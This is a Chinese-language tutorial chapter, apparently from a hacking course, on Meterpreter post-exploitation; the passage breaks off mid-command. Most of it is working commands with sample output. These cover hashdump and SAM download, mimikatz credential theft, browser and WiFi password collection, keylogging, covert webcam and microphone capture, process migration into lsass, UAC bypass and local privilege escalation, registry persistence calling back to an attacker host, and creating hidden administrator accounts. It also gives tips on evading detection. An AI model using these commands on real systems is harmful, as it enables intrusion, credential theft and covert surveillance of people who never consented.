





# 第40章 Meterpreter深入探索

> **难度等级：🟠 高等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：Meterpreter是什么、工作原理、核心功能详解、文件系统操作、网络操作、系统操作、权限提升、凭据窃取、键盘记录、屏幕截图、后渗透模块、持久化、端口转发、内网代理、5个实战案例**

::: tip 说明
上一章我们学习了Metasploit的基础，
知道了Meterpreter是MSF最强大的Payload。

这一章我们就来深入学习Meterpreter，
看看它到底有多强大。

Meterpreter是什么？
简单说就是：
**一个超级Shell，
比普通的CMD/Bash Shell强100倍。**

它有什么功能？
- 文件操作（上传、下载、浏览...）
- 系统操作（进程管理、服务管理、注册表...）
- 网络操作（端口转发、内网代理...）
- 凭据窃取（抓密码、Hashdump...）
- 键盘记录、屏幕截图、摄像头...
- 提权、持久化、横向移动...
- 还有更多！

这一章我们一个个来学，
保证让你大开眼界。
准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
拿到Shell之后做什么？
很多新手拿到Shell之后就懵了，
不知道接下来该干什么。

有了Meterpreter，
你就不用愁了，
因为它内置了超级多功能，
基本上你想得到的后渗透操作，
它都有对应的命令或模块。

Meterpreter是Metasploit的王牌，
也是为什么MSF这么流行的原因之一。
和普通的CMD Shell比起来，
Meterpreter就像是从"功能机"升级到了"智能手机"。

> 💡 **大白话理解Meterpreter**
>
> 普通Shell（CMD/PowerShell/bash）就像**传统座机电话**——只能"打个电话"（执行命令），其他啥也干不了。
>
> Meterpreter就像**智能手机**——不仅能打电话，还能拍照（screenshot）、偷听（键盘记录）、导航（内网路由）、偷数据（文件下载）、开热点（端口转发）...
>
> 更关键的区别在于：
>
> | 维度 | 普通Shell | Meterpreter |
> |------|----------|-------------|
> | 通信方式 | 明文传输 | 加密传输（TLS） |
> | 工作方式 | 每次命令开一个独立进程 | 注入到内存，不落地 |
> | 稳定性 | 容易断 | 心跳检测，自动重连 |
> | 扩展性 | 几乎没有 | 可以动态加载扩展模块 |
> | 多平台 | Windows/Linux各不相同 | 统一命令，跨平台 |
>
> **最关键的一点**：Meterpreter运行在内存中，不做任何磁盘写入。
> 这意味着杀毒软件很难发现它的存在。
> 就像你在别人家干活，走的时候把所有痕迹都清理干净了。

这一章我们会详细讲解Meterpreter的各种功能，
从基础的文件操作，
到高级的内网穿透、凭据窃取，
再到持久化和横向移动，
一一为你揭晓。

学完这一章，
你就知道拿到Meterpreter之后该做什么了。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解Meterpreter是什么、工作原理
- [x] 掌握Meterpreter的常用命令
- [x] 熟练使用Meterpreter进行文件系统操作
- [x] 掌握系统信息收集和进程管理
- [x] 学会使用Meterpreter窃取凭据（hashdump、mimikatz）
- [x] 掌握键盘记录、屏幕截图等监控功能
- [x] 学会端口转发和内网代理
- [x] 了解提权和持久化的基本方法
- [x] 掌握常用的Post模块使用方法
- [x] 能独立完成一次完整的后渗透操作

---

## 🔍 什么是Meterpreter？

### 1.1 概念

**Meterpreter是Metasploit的一个高级、动态可扩展的Payload，
它运行在目标系统的内存中，
通过反射DLL注入的方式加载，
提供了强大的后渗透功能。**

说人话就是：
**Meterpreter是一个超级强大的Shell，
功能比普通CMD强太多了，
而且完全在内存里运行，
不留痕迹。**

Meterpreter的名字来自：
**Meta** + **Interpreter** = **Meterpreter**
（元解释器）

### 1.2 为什么用Meterpreter？

和普通的CMD/Bash Shell比起来，
Meterpreter有很多优势：

| 特性 | 普通Shell | Meterpreter |
|------|-----------|-------------|
| 功能丰富度 | 只有系统自带命令 | 内置几十种后渗透功能 |
| 传输方式 | 明文、不稳定 | 加密、稳定、多通道 |
| 内存中运行 | 需要落地文件 | 完全在内存中，不留痕迹 |
| 可扩展性 | 有限 | 可以动态加载扩展模块 |
| 平台支持 | 取决于系统 | 跨平台（Windows/Linux/Mac/Android） |
| 后渗透功能 | 需要自己上传工具 | 内置提权、抓密码、截图等 |

简单说：
**普通Shell有的它都有，
普通Shell没有的它也有。**

### 1.3 工作原理

Meterpreter的工作原理比较巧妙：

1. **第一阶段（Stager）**：
   - 很小的一段代码，通过漏洞利用传进去
   - 建立反向连接，连回攻击机
   - 下载第二阶段的代码

2. **第二阶段（Stage）**：
   - 真正的Meterpreter代码
   - 通过反射DLL注入到内存中
   - 完全在内存里运行，不写硬盘
   - 所以很难被杀毒软件检测到

3. **运行时**：
   - 和攻击机之间建立加密的通信通道
   - 攻击机发命令，Meterpreter执行
   - 结果返回给攻击机
   - 可以动态加载新的功能模块（扩展）

**为什么叫"反射DLL注入"？**
普通的DLL注入需要把DLL文件写到硬盘上，
然后LoadLibrary加载。
而反射DLL注入是把DLL直接加载到内存里，
完全不经过硬盘，
所以更隐蔽。

**图40-1 Meterpreter两阶段加载工作原理图**



### 1.4 Meterpreter的类型

Meterpreter有很多种，
适用于不同的平台和场景：

| 类型 | 说明 |
|------|------|
| `windows/meterpreter/reverse_tcp` | Windows 32位，反向TCP |
| `windows/x64/meterpreter/reverse_tcp` | Windows 64位，反向TCP |
| `windows/meterpreter/bind_tcp` | Windows，绑定端口 |
| `linux/x86/meterpreter/reverse_tcp` | Linux 32位，反向TCP |
| `linux/x64/meterpreter/reverse_tcp` | Linux 64位，反向TCP |
| `android/meterpreter/reverse_tcp` | 安卓，反向TCP |
| `osx/x86_64/meterpreter/reverse_tcp` | Mac，反向TCP |
| `php/meterpreter/reverse_tcp` | PHP版，WebShell用 |
| `java/meterpreter/reverse_tcp` | Java版，JSP/Servlet用 |
| `python/meterpreter/reverse_tcp` | Python版 |

最常用的是 **Windows反向TCP** 那个。

### 1.5 通信方式

Meterpreter支持多种通信方式：

- **reverse_tcp**：反向TCP，目标主动连回来（最常用）
- **bind_tcp**：绑定TCP，攻击机主动连目标
- **reverse_http**：反向HTTP，用HTTP协议通信
- **reverse_https**：反向HTTPS，加密HTTP，更隐蔽
- **reverse_tcp_rc4**：RC4加密的反向TCP
- **reverse_tcp_dns**：通过DNS隧道通信（更隐蔽）

不同的场景用不同的通信方式，
比如目标有严格的出站规则，
可能只有80/443端口能出去，
这时候用reverse_https就比较好。

---

## 🖥️ Meterpreter基础操作

### 2.1 进入Meterpreter

成功获取会话后，
你会看到：
```
meterpreter >
```

这就是Meterpreter的命令提示符。

### 2.2 help - 帮助

查看所有可用命令：
```
meterpreter > help
```

命令会分为几大类：
- **Core commands**：核心命令
- **File system commands**：文件系统命令
- **Networking commands**：网络命令
- **System commands**：系统命令
- **User interface commands**：用户界面命令
- **Webcam commands**：摄像头命令
- **Audio output commands**：音频输出命令
- **Priv: Password database commands**：密码数据库命令
- **Priv: Timestomp commands**：时间戳操作命令
- ...

查看某个命令的帮助：
```
meterpreter > help upload
```

**图40-2 Meterpreter命令分类架构图**



### 2.3 background - 后台运行

把当前Meterpreter会话放到后台，
回到msfconsole：
```
meterpreter > background
```

或者按 `Ctrl+Z`，效果一样。

后台之后，可以用 `sessions -i 1` 再回来。

### 2.4 sessions - 会话管理

在msfconsole中查看所有会话：
```
msf6 > sessions -l
```

进入某个会话：
```
msf6 > sessions -i 1
```

杀掉某个会话：
```
msf6 > sessions -k 1
```

### 2.5 exit / quit - 退出

退出当前Meterpreter会话：
```
meterpreter > exit
```

---

## 📁 文件系统操作

Meterpreter的文件操作命令和Linux很像，
很容易上手。

### 3.1 pwd / getwd - 查看当前目录

```
meterpreter > pwd
C:\Windows\system32
```

### 3.2 cd - 切换目录

```
meterpreter > cd C:\\
```

注意：Windows路径的反斜杠要转义（两个\\），
或者用正斜杠 / 也可以。

### 3.3 ls - 列出文件

```
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2024-01-01 00:00:00 +0800  $Recycle.Bin
40777/rwxrwxrwx   0       dir   2024-01-01 00:00:00 +0800  Program Files
40777/rwxrwxrwx   0       dir   2024-01-01 00:00:00 +0800  Windows
...
```

### 3.4 upload - 上传文件

把本地文件上传到目标：

```
meterpreter > upload /root/tools/mimikatz.exe
[*] uploading  : /root/tools/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /root/tools/mimikatz.exe -> mimikatz.exe
```

上传到指定目录：
```
meterpreter > upload /root/tools/mimikatz.exe C:\\Windows\\Temp\\
```

上传整个目录：
```
meterpreter > upload -r /root/tools/ C:\\Windows\\Temp\\
```
（-r 是递归上传）

### 3.5 download - 下载文件

把目标上的文件下载到本地：

```
meterpreter > download C:\\Windows\\System32\\config\\SAM
[*] Downloading: SAM -> SAM
[*] Downloaded 10485760 bytes (100.0%): SAM -> SAM
```

下载整个目录：
```
meterpreter > download -r C:\\Users\\Administrator\\Documents
```

### 3.6 cat - 查看文件内容

```
meterpreter > cat C:\\Windows\\win.ini
```

### 3.7 rm / del - 删除文件

```
meterpreter > rm C:\\Windows\\Temp\\mimikatz.exe
```

### 3.8 mkdir - 创建目录

```
meterpreter > mkdir C:\\Windows\\Temp\\hack
```

### 3.9 rmdir - 删除目录

```
meterpreter > rmdir C:\\Windows\\Temp\\hack
```

### 3.10 edit - 编辑文件

用vi编辑器编辑文件：
```
meterpreter > edit C:\\Windows\\Temp\\test.txt
```

### 3.11 search - 搜索文件

在目标系统中搜索文件：

```
meterpreter > search -f *.doc -d C:\\Users\\
```

参数说明：
- `-f`：文件名（支持通配符）
- `-d`：搜索的起始目录

搜索配置文件、敏感文件、密码文件的时候很好用。

---

## 🖱️ 系统操作

### 4.1 sysinfo - 系统信息

查看目标系统的基本信息：

```
meterpreter > sysinfo
Computer        : WIN-XXXX
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

可以看到：
- 计算机名
- 操作系统版本
- 架构（x86还是x64）
- 系统语言
- 域/工作组
- 登录用户数
- Meterpreter版本

### 4.2 getuid - 当前用户

查看当前是什么用户在运行：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

如果显示的是 `NT AUTHORITY\SYSTEM`，
恭喜你，你是系统权限，
最高权限！

如果是普通用户，
那可能需要提权。

### 4.3 getpid - 当前进程ID

查看Meterpreter注入在哪个进程里：

```
meterpreter > getpid
Current pid: 1234
```

### 4.4 ps - 列出进程

查看目标系统运行的所有进程：

```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 272   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 356   348   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 ...
```

可以看到：
- PID（进程ID）
- PPID（父进程ID）
- 进程名
- 架构
- 用户
- 路径

找explorer.exe、杀毒软件进程、
浏览器进程什么的都用这个。

### 4.5 migrate - 进程迁移

把Meterpreter注入到另一个进程中：

```
meterpreter > migrate 1234
[*] Migrating from 4567 to 1234...
[*] Migration completed successfully.
```

为什么要迁移进程？
- **更稳定**：比如注入到explorer.exe，用户一直开着
- **更隐蔽**：注入到系统进程，不容易被发现
- **权限更高**：注入到高权限进程
- **绕过某些防护**：某些进程受信任

常见的迁移目标：
- explorer.exe（资源管理器）
- svchost.exe（系统服务）
- lsass.exe（本地安全认证，抓密码方便）

迁移之前先用ps找到目标进程的PID。

> 💡 **大白话说"进程迁移"为什么这么重要**
>
> 进程迁移就像"搬家"——但不是搬家，是"换宿主"。
>
> 想象一下：你的Meterpreter现在寄生在一个进程中，而这个进程可能是：
> - 一个不稳定的程序（用户随时可能关掉它）→ 你也会跟着"死掉"
> - 一个低权限的进程（IIs worker）→ 你什么都不能干
> - 一个很显眼的陌生进程 → 管理员一看就觉得不对
>
> **进程迁移就是把你的Meterpreter从一个"烂房子"搬到一个"豪华别墅"里**：
> - 搬到 `explorer.exe` = 只要用户不关机，你就一直在
> - 搬到 `svchost.exe` = 系统核心服务，没人会去杀它，隐蔽性极高
> - 搬到 `lsass.exe` = 你住在"密码仓库"隔壁，抓密码特别方便
>
> 这就像间谍潜入敌营后，不自己搭帐篷（容易被发现），
> 而是混入对方的军营里，穿上对方的军装，谁也认不出来。

**图40-3 Meterpreter进程迁移流程图**



### 4.6 kill - 杀进程

杀掉指定进程：

```
meterpreter > kill 1234
```

### 4.7 execute - 执行命令/程序

在目标上执行命令或程序：

```
meterpreter > execute -f cmd.exe -i
Process 1234 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

参数说明：
- `-f`：要执行的程序
- `-i`：交互模式（进入这个程序的交互界面）
- `-c`：隐藏执行（不显示窗口）
- `-a`：传递参数
- `-m`：从内存中执行

执行一条命令并获取输出：
```
meterpreter > execute -f cmd.exe -a "/c whoami" -c
```

或者更简单的，用shell命令：

### 4.8 shell - 获得系统Shell

进入普通的CMD Shell：

```
meterpreter > shell
Process 1234 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
whoami
nt authority\system

C:\Windows\system32> exit
exit
meterpreter >
```

输入 `exit` 回到Meterpreter。

### 4.9 getprivs - 查看权限

查看当前拥有的权限：

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeDebugPrivilege
SeLoadDriverPrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeTakeOwnershipPrivilege
...
```

有哪些权限很重要，
有些提权、操作需要特定的权限。
比如 `SeDebugPrivilege` 可以调试进程，
`SeLoadDriverPrivilege` 可以加载驱动。

### 4.10 hashdump - 导出密码Hash

导出SAM数据库中的用户密码Hash：

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
user1:1000:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
```

格式是：
`用户名:SID:LM Hash:NTLM Hash:::`

注意：
hashdump需要SYSTEM权限才能运行。
如果是普通用户权限，需要先提权。

拿到Hash之后可以：
- 离线破解（用Hashcat等工具）
- 哈希传递（Pass-the-Hash，横向移动）

### 4.11 reboot / shutdown - 重启/关机

```
meterpreter > reboot
meterpreter > shutdown
```

慎用！
把目标搞重启了可能会失去访问。

---

## 👤 用户界面操作

### 5.1 screenshot - 屏幕截图

截取目标用户的屏幕：

```
meterpreter > screenshot
Screenshot saved to: /root/xxxx.jpeg
```

然后就可以在本地查看截图了，
看看目标在干什么。

**图40-6 Meterpreter屏幕截图操作界面实景图**


### 5.2 webcam_list - 列出摄像头

查看目标有几个摄像头：

```
meterpreter > webcam_list
1: Integrated Camera
```

### 5.3 webcam_snap - 摄像头拍照

用摄像头拍一张照片：

```
meterpreter > webcam_snap
[*] Starting...
[*] Got frame
[*] Stopped
Webcam shot saved to: /root/xxxx.jpeg
```

### 5.4 webcam_stream - 摄像头直播

开启摄像头直播：
```
meterpreter > webcam_stream
```

会启动一个Web服务器，
你可以在浏览器里看实时画面。

### 5.5 record_mic - 录音

录制目标麦克风的声音：
```
meterpreter > record_mic
[*] Recording...
[*] Stopped
Audio saved to: /root/xxxx.wav
```

### 5.6 keyscan_start - 开始键盘记录

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
```

### 5.7 keyscan_dump - 导出键盘记录

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
password123<Return>
hello world<Backspace><Backspace>
```

### 5.8 keyscan_stop - 停止键盘记录

```
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

键盘记录非常有用，
可以抓到用户输入的各种密码、
聊天记录、邮件内容等等。

### 5.9 idle_time - 空闲时间

查看目标用户多久没操作了：
```
meterpreter > idle_time
User has been idle for: 500 seconds
```

如果用户很久没动，
可能去吃饭/开会了，
这时候操作比较不容易被发现。

### 5.10 uictl - 用户界面控制

控制鼠标键盘的启用/禁用：

```
meterpreter > uictl disable keyboard
[*] Disabling keyboard...
[+] Keyboard is disabled

meterpreter > uictl enable keyboard
[*] Enabling keyboard...
[+] Keyboard is enabled
```

还有鼠标：
```
meterpreter > uictl disable mouse
meterpreter > uictl enable mouse
```

恶作剧专用，
不过实战中一般不用，
容易被发现。

---

## 🌐 网络操作

### 6.1 ipconfig / ifconfig - 查看网络配置

```
meterpreter > ipconfig

Interface 1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0

Interface 2
============
Name         : Local Area Connection
Hardware MAC : 00:0c:29:xx:xx:xx
MTU          : 1500
IPv4 Address : 192.168.1.100
IPv4 Netmask : 255.255.255.0
IPv4 Gateway : 192.168.1.1
```

看看目标有几块网卡、
IP地址是多少、
是不是在内网、
有没有其他网段...

这些信息对后续内网渗透很重要。

### 6.2 route - 查看路由表

```
meterpreter > route
```

查看目标的路由表，
了解网络拓扑。

### 6.3 arp - 查看ARP缓存

```
meterpreter > arp
```

查看目标的ARP缓存，
可以发现同一网段的其他主机。

### 6.4 netstat - 查看网络连接

```
meterpreter > netstat
```

查看目标的网络连接，
看它和哪些机器在通信，
开了哪些端口，
有没有连接域控、数据库服务器什么的。

### 6.5 portfwd - 端口转发

把目标内网的端口转发到本地，
这样我们就可以访问内网的服务了。

**把目标内网的3389（远程桌面）转发到本地的4444端口：**
```
meterpreter > portfwd add -l 4444 -p 3389 -r 192.168.1.200
[*] Local TCP relay created: :4444 <-> 192.168.1.200:3389
```

参数说明：
- `-l`：本地监听的端口
- `-p`：目标的端口
- `-r`：目标的IP（可以是内网的）

然后访问本地的4444端口，
就等于访问目标内网的3389了：
```bash
rdesktop 127.0.0.1:4444
```

**查看转发列表：**
```
meterpreter > portfwd list
```

**删除转发：**
```
meterpreter > portfwd delete -l 4444
```

**删除所有转发：**
```
meterpreter > portfwd flush
```

### 6.6 autoroute - 自动路由

比portfwd更强大的是autoroute，
它可以把整个内网网段都路由到MSF里，
这样MSF的其他模块也可以直接访问内网了。

```
meterpreter > run autoroute -s 192.168.1.0/24
[*] Adding a route to 192.168.1.0/24...
[+] Added route to 192.168.1.0/24 via session 1
```

参数说明：
- `-s`：要添加的网段

然后在msfconsole里，
其他模块就可以直接扫描、攻击这个内网网段了。

**查看路由：**
```
meterpreter > run autoroute -p
```

**删除路由：**
```
meterpreter > run autoroute -d -s 192.168.1.0/24
```

或者在msfconsole里用route命令：
```
msf6 > route add 192.168.1.0/24 1
msf6 > route print
```
（1是会话ID）

**图40-4 portfwd端口转发与autoroute自动路由对比图**



---

## 🔑 凭据窃取

拿到系统权限之后，
第一件事通常就是抓密码。
Meterpreter抓密码的方法很多。

### 7.1 hashdump（前面讲过）

导出SAM里的密码Hash，
这个前面讲过了，
再提一下。

需要SYSTEM权限。

### 7.2 mimikatz - 神器中的神器

Mimikatz是法国大牛写的密码抓取工具，
可以从内存中抓取明文密码，
功能极其强大。

Meterpreter可以直接加载mimikatz，
不用上传文件。

**加载mimikatz扩展：**
```
meterpreter > load mimikatz
Loading extension mimikatz...Success.
```

**抓取明文密码（经典命令）：**
```
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain    LM                           NTLM
--------  ------    --                           ----
user1     WIN-XXXX  xxxxxxxxxxxxxxxxxxxxxxxxxxxx  xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

**Kerberos票据：**
```
meterpreter > kerberos
```

**所有凭证：**
```
meterpreter > creds_all
```

**WDigest：**
```
meterpreter > wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username  Domain    Password
--------  ------    --------
user1     WIN-XXXX  password123
```

WDigest可以直接拿到明文密码！
（Windows 8.1/2012之后默认禁用了WDigest，但可以开启）

注意：
mimikatz也需要SYSTEM权限，
最好注入到lsass.exe进程里再抓。

### 7.3 其他抓密码模块

Meterpreter还有很多Post模块可以抓密码：

```
meterpreter > run post/windows/gather/credentials/credential_collector
```

或者：
```
meterpreter > run post/windows/gather/hashdump
```

还有专门抓浏览器密码的：
```
meterpreter > run post/windows/gather/credentials/chrome
meterpreter > run post/windows/gather/credentials/firefox
meterpreter > run post/windows/gather/credentials/outlook
```

抓WiFi密码：
```
meterpreter > run post/windows/wlan/wlan_profile
```

各种密码都能抓！

---

## ⬆️ 提权

如果你拿到的是普通用户权限，
那就需要提权。
Meterpreter有很多提权的方法。

### 8.1 getsystem - 自动提权

Meterpreter内置了一个自动提权命令：

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

getsystem会尝试几种不同的提权方法，
如果成功，就拿到SYSTEM权限了。

但注意：
getsystem不是万能的，
它主要是利用一些Token伪造的技巧，
需要有一定的权限基础。
如果是真正的低权限，
还是需要用内核漏洞提权。

### 8.2 本地提权漏洞利用

如果getsystem不行，
那就需要找对应的本地提权漏洞。

比如：
- MS11-080
- MS13-053
- MS14-058
- MS15-051
- MS16-032
- CVE-2018-8120
- ...

MSF里有很多本地提权的exploit模块，
都是`exploit/windows/local/xxx`。

使用方法：
1. 先把当前Meterpreter放到后台（background）
2. use对应的提权模块
3. 设置SESSION参数（哪个会话）
4. 设置PAYLOAD
5. run

举个例子：
```
meterpreter > background
msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf6 exploit(...) > set SESSION 1
msf6 exploit(...) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST 192.168.1.100
msf6 exploit(...) > run
```

如果成功，就会返回一个高权限的会话。

### 8.3 提权辅助模块

MSF还有一些辅助模块，
用来检测目标有哪些提权漏洞：

```
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(...) > set SESSION 1
msf6 post(...) > run
```

这个模块会检查目标系统，
列出可能存在的本地提权漏洞，
然后你可以一个个去试。

**图40-5 Meterpreter后渗透标准操作流程图**



---

## 🔒 持久化（后门）

拿到权限之后，
怎么保持访问？
万一目标重启了、
漏洞修好了，
你就进不去了。

所以需要安装后门，
也就是**持久化**。

### 9.1 persistence - 经典持久化模块

Meterpreter有一个persistence模块，
可以创建开机自启动的后门：

```
meterpreter > run persistence -U -i 60 -p 4444 -r 192.168.1.100
```

参数说明：
- `-U`：用户登录时启动（HKCU注册表）
- `-X`：系统启动时启动（HKLM注册表，需要SYSTEM权限）
- `-i`：回连间隔（秒）
- `-p`：本地监听端口
- `-r`：本地IP
- `-A`：自动启动监听

这个模块会：
1. 上传一个Payload到目标
2. 在注册表里添加启动项
3. 每隔一段时间就反向连接回来

这样即使目标重启了，
只要用户登录（或者系统启动），
就会自动连回来。

### 9.2 服务后门

创建一个系统服务：
```
meterpreter > run metsvc
```

这个会在目标上安装一个Meterpreter服务，
开机自动启动，
绑定端口，等待连接。

然后你可以用bind_tcp连过去。

### 9.3 其他持久化方法

- **注册表Run键**：最简单的自启动
- **计划任务**：定时执行，隐蔽性好
- **WMI事件订阅**：更隐蔽，难查杀
- **DLL劫持**：把DLL放到特定目录
- **驱动/服务**：内核级后门
- **RDP后门**：shift粘滞键后门、放大镜后门
- **WebShell**：如果是Web服务器，留个WebShell
- **Shift后门**：连续按5次shift弹出CMD

持久化的方法非常多，
各有优缺点，
后面专门的章节会详细讲。

---

## 📦 常用Post模块

Meterpreter可以用`run`命令运行Post模块，
post模块超级多，
这里介绍几个最常用的。

### 10.1 信息收集类

**系统信息详细收集：**
```
meterpreter > run post/windows/gather/smart_hashdump
```

**收集无线网络信息：**
```
meterpreter > run post/windows/wlan/wlan_profile
```

**收集浏览器密码：**
```
meterpreter > run post/windows/gather/credentials/chrome
```

**收集Outlook密码：**
```
meterpreter > run post/windows/gather/credentials/outlook
```

**收集FTP密码：**
```
meterpreter > run post/windows/gather/credentials/filezilla
```

**枚举所有用户：**
```
meterpreter > run post/windows/gather/enum_logged_on_users
```

### 10.2 管理类

**开启远程桌面（RDP）：**
```
meterpreter > run post/windows/manage/enable_rdp
```

这个非常实用，
一条命令就把远程桌面打开了，
还会创建一个隐藏的管理员账号。

**关闭远程桌面：**
```
meterpreter > run post/windows/manage/enable_rdp DISABLE=true
```

**添加用户：**
```
meterpreter > run post/windows/manage/add_user USERNAME=hacker PASSWORD=Password123
```

**把用户加入管理员组：**
```
meterpreter > run post/windows/manage/add_user USERNAME=hacker GROUP=Administrators
```

### 10.3 权限类

**绕过UAC：**
```
meterpreter > run post/windows/escalate/bypassuac
```

如果用户是管理员但UAC开着，
可以试试绕过UAC。

**获取系统权限：**
```
meterpreter > run post/windows/escalate/getsystem
